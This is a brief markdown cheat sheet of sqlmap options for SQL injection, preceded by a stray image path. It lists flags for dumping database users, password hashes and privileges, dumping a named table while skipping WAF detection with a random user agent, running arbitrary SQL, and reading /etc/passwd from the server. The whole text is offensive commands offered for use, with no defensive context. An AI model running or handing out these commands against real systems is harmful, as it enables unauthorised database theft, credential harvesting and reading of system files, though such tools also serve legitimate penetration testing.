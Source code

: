 # SQLi


- SQLmap tricks:


--users --passwords --privileges --roles --threads=10

--current-user --is-dba --current-db --hostname --threads=10

--sql-query="select now();"

--method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

--file-read=/etc/passwd --threads=10

-b === Banner


